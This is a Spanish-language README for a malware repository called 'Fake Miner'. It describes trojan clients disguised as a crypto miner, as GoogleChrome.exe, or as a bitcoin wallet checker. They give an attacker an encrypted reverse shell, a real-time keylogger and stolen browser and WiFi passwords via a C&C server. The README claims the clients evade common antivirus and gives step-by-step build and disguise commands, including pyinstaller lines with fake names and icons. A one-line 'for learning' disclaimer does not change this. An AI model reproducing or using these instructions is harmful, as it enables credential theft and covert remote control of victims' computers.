




# Fake Miner!

---
    El objetivo de este repositorio es para el aprendizaje, no me hago responsable del uso
    que se le puede dar a este respositorio!

---

Features:
         
         $ Diferentes Modelos (mismos metodos)
         
         $ Este fakeminer, en el ordenador en el que se ejecute, te da acceso a un 
         par de conexiones CIFRADAS con el ordenador victima, en resumen:
               
            Tienes acceso a:
               1. Ejeccion remota de comandos (conex. cifrada) :5001
               2. Keylogger en tiempo real (conex. cifrada) :5000
               3. Contraseñas en navegadores (edge/brave/google) (conex. cifrada) :5002
               4. Contraseñas wifi guardadas (conex. cifrada) :5002

         Testeado con windows defender, malwarebytes y McAfee (Seguridad Dispositivo), no da positivo!   
--- 
# Explicaciones
        

      Tenemos diferentes plantillas para usarlo, un Minero falso, de manera invisible y la ultima,
      checkeando cuentas de bitcoin (funciona).

      Al ejecutar el server.py, solamente veremos la reverse shell, lo demas se esta guardando 
      en el escritorio. Si queremos podemos ejecutar individualmente los archivos de dentro 
      de la carpeta server, esto hara que veamos los keystrokes que se van capturando en tiempo 
      real.

      Para el apartado del servidor podemos ejecutarlo en linux/windows.
      Para compilar necesitaremos el uso de un windows...
      

      
---

Dependecias

            1. Necesitaremos instalar el archivo requierements.py:
                  
                       $ pip install -r requiremenets.txt
            
            2. Tambien requerimos de netcat (no nc)
                  ║       
                  ╚═► Linux:   sudo apt-get install -y ncat
                  ║       
                  ╚═► Windows:  https://nmap.org/dist/nmap-7.94-setup.exe 
                                    (Aseguraos de instalar netcat)
---
Files:  
                                    
                                    --------------------------------------------------
      client/main.py           --> | Real-Time keylogger & C&C (Fake Miner)           |
      client/main_inv.py       --> | Real-Time keylogger & C&C (Invisible)            |
      client/main_checker.py   --> | Real-Time keylogger & C&C (Bitcoin Wallet Check) |
                                    --------------------------------------------------
      client/find_interests.py -->  Password Stealer (edge/brave/google)
      client/get_points.py     -->  Wifi Password Stealer
      client/CryptoPhenix.py   -->  Used for chipher or decipher data
      client/certs.py          -->  Certs for cipher the comms
---

      server/cmd_cntr.py       -->  Command & Control Server
      server/recv_cred.py      -->  Recive ALL passwords stealed
      server/recv_keys.py      -->  Recive the keystrokes in real time
      server/server.py         -->  Main file to start the server listen
      server/certs.py          -->  Certs for cipher the comms
---

# Preparación (AUTOMÁTICA)
### ADVETENCIA
Para poder llevar a cabo la preparación automática, no se puede hacer modificado ni movido de sitio ninguno de los archivos
del repositorio

1. Ejecutamos el script **fstcmp.py**:

        D:\FakeProyect> .\fstcmp.py

2. Seleccionamos la 1a opción y elegimos una plantilla:
    
       [*] Template Selector
          [1] Fake Miner

          [2] Invisible

          [3] Bitcoin account checker
       Select [!>]

3. Seleccionamos la 2da opción y dejamos que se ejecute correctamente 
      
       Select [!>] 2
           [+] Creating Certs...
           [+] Importing certs to client...
           [+] Importing certs to server...
       [*] DONE! 

4. Seleccionamos la 3a opción y especificamos una direccion IP (Estará encriptada)

        Select [!>] 3
        Enter IP [!>] 127.0.0.1

6. Seleccionamos la 4ta opción y especificamos si queremos que se requiera ser administrador:
(Espearar a que pyinstaller acabe el proceso....)   

       [!] Do you want to run as admintrator? [ (S) Default / n ] > n

       [*] Compiling...  

7. Ahora tendremos el .exe generado y funcionando, podemos abandonar el script o ejecutar el servidor

             Select [!>] 5
           [!] STARTED C&C SERVER

       |[!] Listening on 5000||[!] Listening on 5002|

       Ncat: Version 7.94 ( https://nmap.org/ncat )
       Ncat: Listening on [::]:5001
       Ncat: Listening on 0.0.0.0:5001

RUTA -> ./dist/{template}.exe

---
# Preapración (MANUAL)

### Escoger modo de ataque
1. Elegimos una de las siguientes plantillas:

        1. Fake Miner (client/main.py)
            └─ Trata de hacer creer que el usuario está minando.

        2. Invisible (client/main_inv.py)
            └─ Trata de pasar desapercivido, una vez ejecutado, desaparece...

        3. Bitcoin Account Checker (client/main_checker.py)
            └─ Observando en "blockchain.info" mira si una waller de bitcoin existe.
        

### Certificados: 
Recurso ---> https://cyberchef.org/

---         
1. Ejecutamos el create_certs.py, nos dará de resultado 2 archivos

         ┌──(pablo㉿DESKTOP-IJHJ6PM)-[/mnt/d/ProtectosPython/ETHICAL_HACKING/fake_miner/FakeProyect]
         └─$ python3 create_certs.py

         ┌──(pablo㉿DESKTOP-IJHJ6PM)-[/mnt/d/ProtectosPython/ETHICAL_HACKING/fake_miner/FakeProyect]
         └─$ ls
         client  server  [ [cert.pem]  [key.pem] ] create_certs.py  README.md  requirements.txt  
---
2. Estos archivos los encodeamos en base64certs.py (client/server)   
   (Para autocopiar el resultado instalamos xclip ) 

        $ sudo apt install xclip -y
        ┌──(pablo㉿DESKTOP-IJHJ6PM)-[/mnt/d/ProtectosPython/ETHICAL_HACKING/fake_miner/FakeProyect]
        └─$ cat key.pem | base64 | xclip -sel clip

        ┌──(pablo㉿DESKTOP-IJHJ6PM)-[/mnt/d/ProtectosPython/ETHICAL_HACKING/fake_miner/FakeProyect]
        └─$ cat cert.pem | base64 | xclip -sel clip

---
3. Los pegamos en los archivos (server/certs.py && client/certs.py)

         Funcion crte == cert.pem
         Funcion locker == key.pem

   

### Preparar IP

  En la carpeta client debemos especificar la direccion IP En los siguientes archivos:
  
      "find_interest.py", "get_points.py" y main.py"
Hay una función llamada "know_gme()". 
  
En esta funcion debemos especificar la direccion IP. Ahora tenemos dos opciones:
    
1.  Encritpar IP:
         
            Ejecutamos el archivo "client/CryptoPhenix" nos pedira una IP.
         
            La parte que nos interesa es la de RESULT, que es la IP encriptada completa

            
2. IP sin encriptar

         Simplemente escribimos la IP como veremos en el siguiente punto
   
### Escribimos IP:

1. Abrimos los archivos y modificamos la funcion.

   si hemos encriptado la IP Pegamos el resultado en "unkown"

         
2. Por otra parte, si no, solamente hacemos un return de la IP:

      

### 3. Preapramos servidor

      Para esta parte podremos usar un linux o windows.
      
      Necesitamos la herramineta "ncat" bien instalada...
---
      Si ejecutamos el archivo server/server.py, el servidor estará montado y bien preparado
      
      Si ejecutamos el archivo principal client/main.py deberiamos de recibir todas las 
      conexiones!

      En el caso de que no nos funcione, tenemos que generar unos certificados nuevos 

# Compilación
        
**Al ejecutar el .exe, le solicitará permisos de adminstrador, para eliminar este popup**
**Solamente tenemos que eliminar de la linéa de comandos "--uac-admin"**
    
      Para esto necesitaremos de un Windows SI O SI, ya que utilizamos una libreria
      llamada win32crypt solo disponible para Windows...

      Para Generar el .exe ejecutaremos el siguente comando en la carpte "Client":
---
    Fake Miner (client/main.py)
      D:\FakeProyect\client> pyinstaller --onefile --clean -n CryptoMiner.exe --uac-admin --icon=./icons/minericon.ico main.py
---
    Invisible (client/main_inv.py)
      D:\FakeProyect\client> pyinstaller --noconsole --onefile --clean -n GoogleChrome.exe --uac-admin --icon=./icons/GoogleChrome.ico main_inv.py
---
    Bitcoin Account Cheker (client/main_checker.py)
      D:\FakeProyect\client> pyinstaller --onefile --clean -n Bit-Checker.exe --uac-admin --icon=./icons/bit-checker.ico main_checker.py

# Proximamente!

#### Persistencia

